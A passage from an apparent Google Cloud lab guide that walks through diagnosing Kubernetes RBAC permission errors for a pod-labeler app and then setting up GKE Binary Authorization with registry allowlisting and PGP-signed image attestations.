xxxxxxxxxxAttempting to list podsTraceback (most recent call last):File "label_pods.py", line 13, in <module>ret = v1.list_namespaced_pod("default",watch=False)File "build/bdist.linux-x86_64/egg/kubernetes/client/apis/core_v1_api.py", line 12310, in list_namespaced_podFile "build/bdist.linux-x86_64/egg/kubernetes/client/apis/core_v1_api.py", line 12413, in list_namespaced_pod_with_http_infoFile "build/bdist.linux-x86_64/egg/kubernetes/client/api_client.py", line 321, in call_apiFile "build/bdist.linux-x86_64/egg/kubernetes/client/api_client.py", line 155, in __call_apiFile "build/bdist.linux-x86_64/egg/kubernetes/client/api_client.py", line 342, in requestFile "build/bdist.linux-x86_64/egg/kubernetes/client/rest.py", line 231, in GETFile "build/bdist.linux-x86_64/egg/kubernetes/client/rest.py", line 222, in requestkubernetes.client.rest.ApiException: (403)Reason: ForbiddenHTTP response headers: HTTPHeaderDict({'Date': 'Fri, 25 May 2018 15:33:15 GMT', 'Audit-Id': 'ae2a0d7c-2ab0-4f1f-bd0f-24107d3c144e', 'Content-Length': '307', 'Content-Type': 'application/json', 'X-Content-Type-Options': 'nosniff'})HTTP response body: {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"pods is forbidden: User \"system:serviceaccount:default:default\" cannot list pods in the namespace \"default\": Unknown user \"system:serviceaccount:default:default\"","reason":"Forbidden","details":{"kind":"pods"},"code":403}</module>
Based on this error, you can see a permissions error when trying to list pods via the API.
The next step is to confirm you are using the correct ServiceAccount.
Fixing the serviceAccountName
By inspecting the pod's configuration, you can see it is using the default ServiceAccount rather than the custom Service Account.
On the admin instance, run:
xxxxxxxxxxkubectl get pod -oyaml -l app=pod-labeler
Copied!
Output:
xxxxxxxxxxrestartPolicy: AlwaysschedulerName: default-schedulersecurityContext:fsGroup: 9999runAsGroup: 9999runAsUser: 9999serviceAccount: default
The pod-labeler-fix-1.yaml file contains the fix in the deployment's template spec:
xxxxxxxxxx# Fix 1, set the serviceAccount so RBAC rules applyserviceAccount: pod-labeler
Next you'll apply the fix and view the resulting change.
On the admin instance, apply the fix 1 by running:
xxxxxxxxxxkubectl apply -f manifests/pod-labeler-fix-1.yaml
Copied!
Output:
xxxxxxxxxxrole.rbac.authorization.k8s.io/pod-labeler unchangedserviceaccount/pod-labeler unchangedrolebinding.rbac.authorization.k8s.io/pod-labeler unchangeddeployment.apps/pod-labeler configured
View the change in the deployment configuration:
xxxxxxxxxxkubectl get deployment pod-labeler -oyaml
Copied!
Changes in the output:
xxxxxxxxxx...restartPolicy: AlwaysschedulerName: default-schedulersecurityContext: {}serviceAccount: pod-labeler...
Click Check my progress to verify the objective.
Fixing the service account name
Check my progress
Diagnosing insufficient privileges
Once again, check the status of your pod and you'll notice it is still erring out, but with a different message this time.
On the admin instance check the status of your pod:
xxxxxxxxxxkubectl get pods -l app=pod-labeler
Copied!
Output:
xxxxxxxxxxNAME READY STATUS RESTARTS AGEpod-labeler-c7b4fd44d-mr8qh 0/1 CrashLoopBackOff 3 1m
You may need to run the previous command again to see this output.
On the admin instance, check the pod's logs:
xxxxxxxxxxkubectl logs -l app=pod-labeler
Copied!
Output:
xxxxxxxxxxFile "/usr/local/lib/python3.8/site-packages/kubernetes/client/rest.py", line 292, in PATCHreturn self.request("PATCH", url,File "/usr/local/lib/python3.8/site-packages/kubernetes/client/rest.py", line 231, in requestraise ApiException(http_resp=r)kubernetes.client.rest.ApiException: (403)Reason: ForbiddenHTTP response headers: HTTPHeaderDict({'Audit-Id': 'f6c67c34-171f-42f3-b1c9-833e00cedd5e', 'Content-Type': 'application/json', 'X-Content-Type-Options': 'nosniff', 'Date': 'Mon, 23 Mar 2020 16:35:18 GMT', 'Content-Length': '358'})HTTP response body: {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"pods \"pod-labeler-659c8c99d5-t96pw\" is forbidden: User \"system:serviceaccount:default:pod-labeler\" cannot patch resource \"pods\" in API group \"\" in the namespace \"default\"","reason":"Forbidden","details":{"name":"pod-labeler-659c8c99d5-t96pw","kind":"pods"},"code":403}
Since this is failing on a PATCH operation, you can also see the error in Stackdriver. This is useful if the application logs are not sufficiently verbose.
In the Console, select Navigation menu, and in the Operations section, click on Logging.
In the Query builder dialog box, paste the following code and click Run Query:
xxxxxxxxxxprotoPayload.methodName="io.k8s.core.v1.pods.patch"
Copied!
Click on a down arrow next to a log record and explore the details.
Identifying the application's role and permissions
Use the ClusterRoleBinding to find the ServiceAccount's role and permissions.
On the admin instance, inspect the
rolebindingdefinition:
xxxxxxxxxxkubectl get rolebinding pod-labeler -oyaml
Copied!
Output:
xxxxxxxxxxapiVersion: rbac.authorization.k8s.io/v1kind: RoleBindingmetadata:annotations:kubectl.kubernetes.io/last-applied-configuration: |{"apiVersion":"rbac.authorization.k8s.io/v1","kind":"RoleBinding","metadata":{"annotations":{},"name":"pod-labeler","namespace":"default"},"roleRef":{"apiGroup":"rbac.authorization.k8s.io","kind":"Role","name":"pod-labeler"},"subjects":[{"kind":"ServiceAccount","name":"pod-labeler"}]}creationTimestamp: "2020-03-23T16:29:05Z"name: pod-labelernamespace: defaultresourceVersion: "2886"selfLink: /apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings/pod-labeleruid: 0e4d5be7-d986-40d0-af1d-a660f9aa4336roleRef:apiGroup: rbac.authorization.k8s.iokind: Rolename: pod-labelersubjects:- kind: ServiceAccountname: pod-labeler
The RoleBinding shows you need to inspect the pod-labeler role in the default namespace. Here you can see the role is only granted permission to list pods.
On the admin instance, inspect the
pod-labelerrole definition:
xxxxxxxxxxkubectl get role pod-labeler -oyaml
Copied!
Output:
xxxxxxxxxxapiVersion: rbac.authorization.k8s.io/v1kind: Rolemetadata:annotations:kubectl.kubernetes.io/last-applied-configuration: |{"apiVersion":"rbac.authorization.k8s.io/v1","kind":"Role","metadata":{"annotations":{},"name":"pod-labeler","namespace":"default"},"rules":[{"apiGroups":[""],"resources":["pods"],"verbs":["list"]}]}creationTimestamp: "2020-03-23T16:29:05Z"name: pod-labelernamespace: defaultresourceVersion: "2883"selfLink: /apis/rbac.authorization.k8s.io/v1/namespaces/default/roles/pod-labeleruid: c8191869-c7de-42c6-98fc-79a91d9b02a1rules:- apiGroups:- ""resources:- podsverbs:- list
Since the application requires PATCH permissions, you can add it to the "verbs" list of the role, which you will do now.
The pod-labeler-fix-2.yaml file contains the fix in it's rules/verbs section:
xxxxxxxxxxrules:- apiGroups: [""] # "" refers to the core API groupresources: ["pods"]verbs: ["list","patch"] # Fix 2: adding permission to patch (update) pods
Apply the fix and view the resulting configuration.
On the admin instance, apply
fix-2:
xxxxxxxxxxkubectl apply -f manifests/pod-labeler-fix-2.yaml
Copied!
Output:
xxxxxxxxxxrole.rbac.authorization.k8s.io/pod-labeler configuredserviceaccount/pod-labeler unchangedrolebinding.rbac.authorization.k8s.io/pod-labeler unchangeddeployment.apps/pod-labeler unchanged
Click Check my progress to verify the objective.
Identifying the application's role and permissions
Check my progress
On the admin instance, view the resulting change:
xxxxxxxxxxkubectl get role pod-labeler -oyaml
Copied!
Output:
xxxxxxxxxxapiVersion: rbac.authorization.k8s.io/v1kind: Rolemetadata:annotations:kubectl.kubernetes.io/last-applied-configuration: |{"apiVersion":"rbac.authorization.k8s.io/v1","kind":"Role","metadata":{"annotations":{},"name":"pod-labeler","namespace":"default"},"rules":[{"apiGroups":[""],"resources":["pods"],"verbs":["list","patch"]}]}creationTimestamp: "2020-03-23T16:29:05Z"name: pod-labelernamespace: defaultresourceVersion: "8802"selfLink: /apis/rbac.authorization.k8s.io/v1/namespaces/default/roles/pod-labeleruid: c8191869-c7de-42c6-98fc-79a91d9b02a1rules:- apiGroups:- ""resources:- podsverbs:- list- patch
Because the pod-labeler may be in a back-off loop, the quickest way to test the fix is to kill the existing pod and let a new one take its place.
On the admin instance, run the following to kill the existing pod and let the deployment controller replace it:
xxxxxxxxxxkubectl delete pod -l app=pod-labeler
Copied!
Output:
xxxxxxxxxxpod "pod-labeler-659c8c99d5-t96pw" deleted
Verifying successful configuration
Finally, verify the new pod-labeler is running and check that the "updated" label has been applied.
On the admin instance, list all pods and show their labels:
xxxxxxxxxxkubectl get pods --show-labels
Copied!
Output:
xxxxxxxxxxNAME READY STATUS RESTARTS NAME READY STATUS RESTARTS AGE LABELSpod-labeler-659c8c99d5-5qsmw 1/1 Running 0 31s app=pod-labeler,pod-template-hash=659c8c99d5,updated=1584982487.6428008
View the pod's logs to verify there are no longer any errors:
xxxxxxxxxxkubectl logs -l app=pod-labeler
Copied!
Output:
xxxxxxxxxxAttempting to list podslabeling pod pod-labeler-659c8c99d5-5qsmwlabeling pod pod-labeler-659c8c99d5-t96pw...
Key take-aways
Container and API server logs will be your best source of clues for diagnosing RBAC issues.
Use RoleBindings or ClusterRoleBindings to determine which role is specifying the permissions for a pod.
API server logs can be found in Stackdriver under the Kubernetes resource.
Not all API calls will be logged to Stackdriver. Frequent, or verbose payloads are omitted by the Kubernetes' audit policy used in Kubernetes Engine. The exact policy will vary by Kubernetes version, but can be found in the open source codebase.
Congratulations!
You've explored role-based access (RBAC) control by assigning different permissions to user personas and granting limited API access to an application running in your cluster.
LAB - Google Kubernetes Engine Security: Binary Authorization
Overview
One of the key security concerns for running Kubernetes clusters is knowing what container images are running inside each pod and being able to account for their origin. Establishing "container provenance" means having the ability to trace the source of a container to a trusted point of origin and ensuring your organization follows the desired processes during artifact (container) creation.
Some of the key concerns are:
Safe Origin - How do you ensure that all container images running in the cluster come from an approved source?
Consistency and Validation - How do you ensure that all desired validation steps were completed successfully for every container build and every deployment?
Integrity - How do you ensure that containers were not modified before running after their provenance was proven?
From a security standpoint, not enforcing where images originate from presents several risks:
A malicious actor that has compromised a container may be able to obtain sufficient cluster privileges to launch other containers from an unknown source without enforcement.
An authorized user with the permissions to create pods may be able to accidentally or maliciously run an undesired container directly inside a cluster.
An authorized user may accidentally or maliciously overwrite a docker image tag with a functional container that has undesired code silently added to it, and Kubernetes will pull and deploy that container as a part of a deployment automatically.
To help system operators address these concerns, Google Cloud offers a capability called Binary Authorization. Binary Authorization is a Google Cloud managed service that works closely with GKE to enforce deploy-time security controls to ensure that only trusted container images are deployed. With Binary Authorization you can allowlist container registries, require images to be signed by trusted authorities, and centrally enforce those policies. By enforcing this policy, you can gain tighter control over your container environment by ensuring only approved and/or verified images are integrated into the build-and-release process.
This lab deploys a Kubernetes Engine Cluster with the Binary Authorization feature enabled demonstrates how to allowlist approved container registries, and walks you through the process of creating and running a signed container.
This lab was created by GKE Helmsman engineers to give you a better understanding of GKE Binary Authorization. We encourage any one to contribute to our assets!
Architecture
The Binary Authorization and Container Analysis APIs are based upon the open-source projects Grafeas and Kritis.
Grafeas defines an API spec for managing metadata about software resources, such as container images, Virtual Machine (VM) images, JAR files, and scripts. You can use Grafeas to define and aggregate information about your project’s components.
Kritis defines an API for ensuring a deployment is prevented unless the artifact (container image) is conformant to central policy and optionally has the necessary attestations present.
In a simplified container deployment pipeline such as this:
The container goes through at least 4 steps:
The source code for creating the container is stored in source control.
Upon committing a change to source control, the container is built and tested.
If the build and test steps are completed, the container image artifact is then placed in a central container registry, ready for deployment.
When a deployment of that container version is submitted to the Kubernetes API, the container runtime will pull that container image from the container registry and run it as a pod.
In a container build pipeline, there are opportunities to inject additional processes to signify or "attest" that each step was completed successfully. Examples include running unit tests, source control analysis checks, licensing verification, vulnerability analysis, and more. Each step could be given the power or "attestation authority" to sign for that step being completed. An "attestation authority" is a human or system with the correct PGP key and the ability to register that "attestation" with the Container Analysis API.
By using separate PGP keys for each step, each attestation step could be performed by different humans, systems, or build steps in the pipeline (a). Each PGP key is associated with an "attestation note" which is stored in the Container Analysis API. When a build step "signs" an image, a snippet of JSON metadata about that image is signed via PGP and that signed snippet is submitted to the API as a "note occurrence".
(b).Once the container image has been built and the necessary attestations have been stored centrally, they are available for being queried as a part of a policy decision process. In this case, a Kubernetes Admission Controller, upon receiving an API request to create or update a Pod:
Send a WebHook to the Binary Authorization API for a policy decision.
The Binary Authorization policy is then consulted.
If necessary, the Container Analysis API is also queried for the necessary attestation occurrences.
If the container image conforms to the policy, it is allowed to run.
If the container image fails to meet the policy, an error is presented to the API client with a message describing why it was prevented.
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxxstudent-02-e164b91bf60d@qwiklabs.netCopied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxx7ZUIm6rpni18Copied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.
Activate Cloud Shell
Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.
Click Activate Cloud Shell
Click through the following windows:
Continue through the Cloud Shell information window.
Authorize Cloud Shell to use your credentials to make Google Cloud API calls.
When you are connected, you are already authenticated, and the project is set to your Project_ID, qwiklabs-gcp-03-c7ed025791a3. The output contains a line that declares the Project_ID for this session:
xxxxxxxxxxYour Cloud Platform project in this session is set to qwiklabs-gcp-03-c7ed025791a3
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
(Optional) You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Click Authorize.
Output:
xxxxxxxxxxACTIVE: *ACCOUNT: student-02-e164b91bf60d@qwiklabs.netTo set the active account, run:$ gcloud config set account `ACCOUNT`
(Optional) You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = qwiklabs-gcp-03-c7ed025791a3
Note: For full documentation of gcloud, in Google Cloud, refer to the gcloud CLI overview guide.
Task 1. Copy resources
Now, you will copy the resources needed for this lab by running:
xxxxxxxxxxgsutil -m cp -r gs://spls/gke-binary-auth/* .
Copied!
Go into the directory for this demo:
xxxxxxxxxxcd gke-binary-auth-demo
Copied!
Set your region and zone
Certain Compute Engine resources live in regions and zones. A region is a specific geographical location where you can run your resources. Each region has one or more zones.
Note: Learn more about regions and zones and see a complete list in Regions & Zones documentation.
Run the following to set a region and zone for your lab (you can use the region/zone that's best for you):
xxxxxxxxxxgcloud config set compute/region europe-west4gcloud config set compute/zone europe-west4-c
Copied!
Updating files permissions
Now, make some files readable, writable, and executable for resources needed for this lab:
xxxxxxxxxxchmod +x create.shchmod +x delete.shchmod 777 validate.sh
Copied!
Task 2. Set default cluster version
Change the
create.sh's GKE_VERSION variable todefaultClusterVersion:
xxxxxxxxxxsed -i 's/validMasterVersions\[0\]/defaultClusterVersion/g' ./create.sh
Copied!
Note: The default cluster version will be compatible with other dependencies in this lab.
Task 3. Deployment steps
Note: The following instructions are applicable for deployments performed both with and without Cloud Shell.
To deploy the cluster, execute the following command. Feel free to replace the text
my-cluster-1with the name of the cluster that you would like to create.
xxxxxxxxxx./create.sh -c my-cluster-1
Copied!
The create script will output the following message when complete:
xxxxxxxxxxkubeconfig entry generated for my-cluster-1.NAME LOCATION MASTER_VERSION MASTER_IP MACHINE_TYPE NODE_VERSION NUM_NODES STATUSmy-cluster-1 europe-west4-c 1.14.8-gke.17 104.154.181.211 n1-standard-1 1.14.8-gke.17 2 RUNNINGFetching cluster endpoint and auth data.kubeconfig entry generated for my-cluster-1.
The script will:
Enable the necessary APIs in your project. Specifically,
container,containerregistry,containeranalysis, andbinaryauthorization.Create a new Kubernetes Engine cluster in your default ZONE, VPC and network.
Retrieve your cluster credentials to enable
kubectlusage.
It is safe to ignore warnings.
Task 4. Validation
The following script will validate that the demo is deployed correctly:
xxxxxxxxxx./validate.sh -c my-cluster-1
Copied!
If the script fails, it will output:
xxxxxxxxxxValidation Failed: the BinAuthZ policy was NOT available
And / Or
xxxxxxxxxxValidation Failed: the Container Analysis API was NOT available
If the script passes, it will output:
xxxxxxxxxxValidation Passed: the BinAuthZ policy was availableValidation Passed: the Container Analysis API was available
Test completed task
Click Check my progress to verify your performed task. If you have successfully created a Kubernetes cluster with Binary Authorization, you will see an assessment score.
Create a Kubernetes Cluster with Binary Authorization
Check my progress
Task 5. Using Binary Authorization
Managing the Binary Authorization Policy
To access the Binary Authorization Policy configuration UI, perform the following steps:
In the Google Cloud console, navigate to the Security > Binary Authorization.
Click Edit Policy.
Note: To access the Binary Authorization Policy configuration via gcloud:
Run gcloud beta container binauthz policy export > policy.yaml
Make the necessary edits to policy.yaml
Run gcloud beta container binauthz policy import policy.yaml
The policy you are editing is the "default" policy, and it applies to all GKE clusters in the Google Cloud project unless a cluster-specific policy is in place.
The recommendation is to create policies specific to each cluster and achieve successful operation (allowlisting registries as needed), and then set the default project-level policy to "Deny All Images". Any new cluster in this project will then need its own cluster-specific policy.
After clicking Edit Policy, the following will appear. Click the down arrow next to Custom Exemption Rules to display them:
The default policy rule is to Allow all images. This mimics the behavior as if Binary Authorization wasn't enabled on the cluster.
If the default rule is changed to Disallow all images or Allow only images that have been approved by all of the following attestors, then images that do not match the exempted registry image paths or do not have the required attestations will be blocked, respectively.
Next, you will make some edits to the policy:
Change your Default rule to
Disallow all imagesIn Additional settings for GKE and Anthos deployments, click Create Specific Rules.
Select GKE Cluster from the dropdown and click Change.
Under GKE Cluster-specific rules, Click Add Specific Rule.
In the Add GKE Cluster-specific rule field, enter your location and cluster name in the form
location.clustername. e.g.europe-west4-c.my-cluster-1 which corresponds to the zoneeurope-west4-cand the cluster namemy-cluster-1.Select the default rule of
Allow all imagesfor your cluster.Click ADD.
Click Save Policy.
Test completed task
Click Check my progress to verify your performed task. If you have successfully updated Binary Authorization Policy to add Disallow all images rule at project level and allow all images at cluster level, you will see an assessment score.
Update Binary Authorization Policy to add Disallow all images rule at project level and allow at cluster level
Check my progress
Task 6. Creating a private GCR image
To simulate a real-world configuration, create a private GCR container image in your project.
You will pull down the
nginxcontainer fromnginxproject and push it to your own GCR repository without modification.In Cloud Shell, pull down the
latestnginxcontainer:
xxxxxxxxxxdocker pull nginx:latest
Copied!
Authenticate docker to the project:
xxxxxxxxxxgcloud auth configure-docker
Copied!
When prompted, Do you want to continue (Y/n)? Enter Y.
Set the PROJECT_ID shell variable:
xxxxxxxxxxPROJECT_ID="$(gcloud config get-value project)"
Copied!
Tag and push it to the current project's GCR:
xxxxxxxxxxdocker tag nginx "gcr.io/${PROJECT_ID}/nginx:latest"docker push "gcr.io/${PROJECT_ID}/nginx:latest"
Copied!
List the "private" nginx image in your own GCR repository:
xxxxxxxxxxgcloud container images list-tags "gcr.io/${PROJECT_ID}/nginx"
Copied!
Task 7. Denying all images
To prove that image denial by policy will eventually work as intended, first verify that the cluster-specific allow rule is in place and allows all containers to run.
To do this, launch a single
nginxpod:
xxxxxxxxxxcat << EOF | kubectl create -f -apiVersion: v1kind: Podmetadata:name: nginxspec:containers:- name: nginximage: "gcr.io/${PROJECT_ID}/nginx:latest"ports:- containerPort: 80EOF
Copied!
You should see a message stating that pod/nginx created.
List the pods:
xxxxxxxxxxkubectl get pods
Copied!
Output:
xxxxxxxxxxNAME READY STATUS RESTARTS AGEnginx 1/1 Running 0 1m
If this fails recheck your cluster-specific region and name and try again.
Now, delete this pod:
xxxxxxxxxxkubectl delete pod nginx
Copied!
Next, prove that the Binary Authorization policy can block undesired images from running in the cluster.
On the Binary Authorization page, click Edit Policy,
Click on the three vertical dots to the right of your GKE Cluster specific rule, and click edit.
Then, select
Disallow all images, click Submit.
Your policy should look similar to the following:
Finally, click Save Policy to apply those changes.
Note: Wait at least 30 seconds before proceeding to allow the policy to take effect.
Test completed task
Click Check my progress to verify your performed task. If you have successfully updated Binary Authorization Policy to Disallow all images rule at cluster level, you will see an assessment score.
Update cluster specific policy to Disallow all images
Check my progress
Now, run the same command as before to create the static
nginxpod:
xxxxxxxxxxcat << EOF | kubectl create -f -apiVersion: v1kind: Podmetadata:name: nginxspec:containers:- name: nginximage: "gcr.io/${PROJECT_ID}/nginx:latest"ports:- containerPort: 80EOF
Copied!
This time, though, you should receive a message from the API server indicating that the policy prevented this pod from being successfully run:
xxxxxxxxxxError from server (VIOLATES_POLICY): error when creating "STDIN": admission webhook "imagepolicywebhook.image-policy.k8s.io" denied the request: Image gcr.io/qwiklabs-gcp-00-ce851250686b/nginx:latest denied by Binary Authorization cluster admission rule for europe-west4-c.my-cluster-1. Denied by always_deny admission rule
To be able to see when any and all images are blocked by the Binary Authorization Policy, navigate to the GKE Audit Logs in Stackdriver and filter on those error messages related to this activity.
In the Google Cloud console, navigate to the Navigation menu > Logging > Logs Explorer.
Populate the Query builder box with:
xxxxxxxxxxresource.type="k8s_cluster" protoPayload.response.reason="VIOLATES_POLICY"
Copied!
Click Run Query.
You should see errors corresponding to the blocking of the
nginxpod from running.
Test completed task
Click Check my progress to verify your performed task. If you have successfully verified cluster admission rule, you will see an assessment score.
Create a Nginx pod to verify cluster admission rule is applied for disallow all images (denies to create)
Check my progress
Task 8. Denying images except from allowlisted container registries
Let's say that you actually want to allow just that nginx container to run. The quickest step to enable this is to allowlist the registry that it comes from.
You will use the output of the following command as your image path:
xxxxxxxxxxecho "gcr.io/${PROJECT_ID}/nginx*"
Copied!
Copy the image path output to your buffer.
Navigate to the Navigation menu > Security > Binary Authorization.
Edit the Binary Authorization Policy, under Custom exemption rules display the image paths, then click Add an Image Pattern.
Paste in the image path you copied earlier. The image below shows an example path.
Click Save Policy, then run:
xxxxxxxxxxcat << EOF | kubectl create -f -apiVersion: v1kind: Podmetadata:name: nginxspec:containers:- name: nginximage: "gcr.io/${PROJECT_ID}/nginx:latest"ports:- containerPort: 80EOF
Copied!
You should now be able to launch this pod and prove that registry allowlisting is working correctly.
Run the following to clean up and prepare for the next steps:
xxxxxxxxxxkubectl delete pod nginx
Copied!
Test completed task
Click Check my progress to verify your performed task. If you have successfully updated Binary Authorization policy to allowlist the container registry, you will see an assessment score.
Update BA policy to denying images except from allowlisted container registries (your project container registry)
Check my progress
Task 9. Enforcing attestations
Allowlisting container image registries is a great first step in preventing undesired container images from being run inside a cluster, but there is more you can do to ensure the container was built correctly.
You want to cryptographically verify that a given container image was approved for deployment. This is done by an "attestation authority" which states or attests to the fact that a certain step was completed. The attestation authority does this by using a PGP key to sign a snippet of metadata describing the SHA256 hash of a container image and submitting it to a central metadata repository--the Container Analysis API.
Later, when the Admission Controller goes to validate if a container image is allowed to run by consulting a Binary Authorization policy that requires attestations to be present on an image, it will check to see if the Container Analysis API holds the signed snippet(s) of metadata saying which steps were completed. With that information, the Admission Controller will know whether to allow or deny that pod from running.
Next, perform a manual attestation of a container image. You will take on the role of a human attestation authority and will perform all the steps to sign a container image, create a policy to require that attestation to be present on images running inside your cluster, and then successfully run that image in a pod.
Setting up the necessary variables
Attestor name/email details:
xxxxxxxxxxATTESTOR="manually-verified" # No spaces allowedATTESTOR_NAME="Manual Attestor"ATTESTOR_EMAIL="$(gcloud config get-value core/account)" # This uses your current user/email
Copied!
Container Analysis Note ID/description of your attestation authority:
xxxxxxxxxxNOTE_ID="Human-Attestor-Note" # No spacesNOTE_DESC="Human Attestation Note Demo"
Copied!
Names for files to create payloads/requests:
xxxxxxxxxxNOTE_PAYLOAD_PATH="note_payload.json"IAM_REQUEST_JSON="iam_request.json"
Copied!
Creating an attestation note
The first step is to register the attestation authority as a Container Analysis note with the Container Analysis API. To do this, you'll create an ATTESTATION note and submit it to the API.
Create the
ATTESTATIONnote payload:
xxxxxxxxxxcat > ${NOTE_PAYLOAD_PATH} << EOF{"name": "projects/${PROJECT_ID}/notes/${NOTE_ID}","attestation_authority": {"hint": {"human_readable_name": "${NOTE_DESC}"}}}EOF
Copied!
Submit the
ATTESTATIONnote to the Container Analysis API:
xxxxxxxxxxcurl -X POST \-H "Content-Type: application/json" \-H "Authorization: Bearer $(gcloud auth print-access-token)" \--data-binary @${NOTE_PAYLOAD_PATH} \"https://containeranalysis.googleapis.com/v1beta1/projects/${PROJECT_ID}/notes/?noteId=${NOTE_ID}"
Copied!
You should see the output from the prior command display the created note, but the following command will also list the created note:
xxxxxxxxxxcurl -H "Authorization: Bearer $(gcloud auth print-access-token)" \"https://containeranalysis.googleapis.com/v1beta1/projects/${PROJECT_ID}/notes/${NOTE_ID}"
Copied!
Creating a PGP signing key
As your attestation authority uses a PGP key to perform the cryptographic signing of the image metadata, create a new PGP key and export the public PGP key.
Note: This error messages related to this activity. PGP key is not password protected for this exercise. In a production system, be sure to properly safeguard your private PGP keys.
Set another shell variable:
xxxxxxxxxxPGP_PUB_KEY="generated-key.pgp"
Copied!
Create the PGP key:
xxxxxxxxxxsudo apt-get install rng-tools
Copied!
xxxxxxxxxxsudo rngd -r /dev/urandom
Copied!
xxxxxxxxxxgpg --quick-generate-key --yes ${ATTESTOR_EMAIL}
Copied!
Press Enter to use an empty passphrase and acknowledge warnings.
Extract the public PGP key:
xxxxxxxxxxgpg --armor --export "${ATTESTOR_EMAIL}" > ${PGP_PUB_KEY}
Copied!
Registering the Attestor in the Binary Authorization API
The next step is to create the "attestor" in the Binary Authorization API and add the public PGP key to it.
Create the Attestor in the Binary Authorization API:
xxxxxxxxxxgcloud --project="${PROJECT_ID}" \beta container binauthz attestors create "${ATTESTOR}" \--attestation-authority-note="${NOTE_ID}" \--attestation-authority-note-project="${PROJECT_ID}"
Copied!
Add the PGP Key to the Attestor:
xxxxxxxxxxgcloud --project="${PROJECT_ID}" \beta container binauthz attestors public-keys add \--attestor="${ATTESTOR}" \--pgp-public-key-file="${PGP_PUB_KEY}"
Copied!
List the newly created Attestor:
xxxxxxxxxxgcloud --project="${PROJECT_ID}" \beta container binauthz attestors list
Copied!
The output should look similar to the following:
xxxxxxxxxxNAME: manually-verifiedNOTE: projects/<project_id>/notes/Human-Attestor-NoteNUM_PUBLIC_KEYS: 1</project_id>
Task 10. "Signing" a container image
The preceeding steps only need to be performed once. From this point on, this step is the only step that needs repeating for every new container image.
The nginx image at nginx:latest is already built and available for use. Perform the manual attestations on it as if it were your own image built by your own processes and save the step of having to build it.
Set a few shell variables:
xxxxxxxxxxGENERATED_PAYLOAD="generated_payload.json"GENERATED_SIGNATURE="generated_signature.pgp"
Copied!
Get the PGP fingerprint:
xxxxxxxxxxPGP_FINGERPRINT="$(gpg --list-keys ${ATTESTOR_EMAIL} | head -2 | tail -1 | awk '{print $1}')"
Copied!
Obtain the SHA256 Digest of the container image:
xxxxxxxxxxIMAGE_PATH="gcr.io/${PROJECT_ID}/nginx"IMAGE_DIGEST="$(gcloud container images list-tags --format='get(digest)' $IMAGE_PATH | head -1)"
Copied!
Create a JSON-formatted signature payload:
xxxxxxxxxxgcloud beta container binauthz create-signature-payload \--artifact-url="${IMAGE_PATH}@${IMAGE_DIGEST}" > ${GENERATED_PAYLOAD}
Copied!
View the generated signature payload:
xxxxxxxxxxcat "${GENERATED_PAYLOAD}"
Copied!
"Sign" the payload with the PGP key:
xxxxxxxxxxgpg --local-user "${ATTESTOR_EMAIL}" \--armor \--output ${GENERATED_SIGNATURE} \--sign ${GENERATED_PAYLOAD}
Copied!
View the generated signature (PGP message):
xxxxxxxxxxcat "${GENERATED_SIGNATURE}"
Copied!
Create the attestation:
xxxxxxxxxxgcloud beta container binauthz attestations create \--artifact-url="${IMAGE_PATH}@${IMAGE_DIGEST}" \--attestor="projects/${PROJECT_ID}/attestors/${ATTESTOR}" \--signature-file=${GENERATED_SIGNATURE} \--public-key-id="${PGP_FINGERPRINT}"
Copied!
View the newly created attestation:
xxxxxxxxxxgcloud beta container binauthz attestations list \--attestor="projects/${PROJECT_ID}/attestors/${ATTESTOR}"
Copied!
Task 11. Running an image with attestation enforcement enabled
The next step is to change the Binary Authorization policy to enforce that attestation is to be present on all images that do not match the allowlist pattern(s).
To change the policy to require attestation, run the following and then copy the full path/name of the attestation authority:
xxxxxxxxxxecho "projects/${PROJECT_ID}/attestors/${ATTESTOR}" # Copy this output to your copy/paste buffer
Copied!
Next, edit the Binary Authorization policy to
editthe GKE Cluster specific rule.
Click the three dots by your cluster name to Edit your cluster-specific rules.
Select
Require attestations (Allow only images that have been verified by all of the following attestors)instead ofDisallow all imagesin the pop-up window.:
Next, click on
Add Attestorsfollowed byAdd by attestor resource ID. Enter the contents of your copy/paste buffer in the format ofprojects/${PROJECT_ID}/attestors/${ATTESTOR}, then click Add 1 Attestor, and then click Submit, and finally click Save Policy.
